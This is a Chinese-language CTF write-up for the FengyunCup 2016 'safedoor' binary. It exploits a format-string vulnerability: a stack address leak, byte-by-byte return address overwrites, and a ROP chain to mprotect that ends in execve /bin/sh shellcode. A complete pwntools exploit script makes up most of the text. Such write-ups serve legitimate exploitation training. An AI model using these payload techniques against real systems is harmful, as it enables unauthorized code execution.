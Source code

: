 ```yaml
---
title: FengyunCup-2016-safedoor
date: 2016-10-17
tags: [2016，CTFs，fsb]
categories: [stack]
---
```

## 0x00 Analysis
程序很小，很明显存在格式化字符串漏洞。  
观察到有**mprotect()** 函数，修改0x804a000-0x804b000内存为可读可写执行，所以构造ROP链:
> Mprotect() 0x8048420  
pop pop pop ret
0x804a000  
0x1000  
0x7  
Symbols[gets]  
返回地址0x804a000  
0x804a000


1. 通过**%70$08x**泄露栈地址并计算出保存返回地址的栈地址
2. 修改返回地址为构造的ROP链
3. 程序跳转到0x804a000执行shellcode

## 0x01 Conclusion
- **%70$08x** 读取栈上第70个参数的内容，输出8位16进制数，不够8位，前补0
- **%str(data)c%16$hhn** 向当前栈后第16个参数写一个字节数据

## 0x02 Exp
```python
#!/usr/bin/env python
from pwn import *

def writeData(addr, data, size):
    for i in range(size):
        byte = (data >> 8 * i ) & 0xff
        writeByte(addr + i, byte)


def writeByte(addr, data):
    payload = '%' + str(data) + 'c%16$hhn' if data != 0 else '%16$hhn'
    payload += 'A'*(48 - len(payload)) + p32(addr)
    p.sendline(payload)

def Attack():
    p.recvuntil('KEY:')
    p.sendline('%70$08x')
    recv_content = p.recvuntil('KEY:')
    addr_stack_leak = int(recv_content[-13:-5],16)
    addr_ret = addr_stack_leak - 0xc
    rop_list = [elf.symbols['mprotect'],0x80486cd,0x804a000,0x1000,0x7,elf.     symbols['gets'],0x804a000,0x804a000]
    gdb.attach(p)
    for i,v in enumerate (rop_list):
        writeData(addr_ret + i * 4, v, 4)
    p.recvuntil('KEY:')
    p.sendline('STjJaOEwLszsLwRy')
    p.recvuntil('okey,you entered it.')
    shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73'
    shellcode += '\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0'
    shellcode += '\x0b\xcd\x80'
    p.sendline(shellcode)
    p.interactive()

if __name__ == '__main__':
    elf = ELF('./safedoor')
    p = process('./safedoor')
    Attack()
```

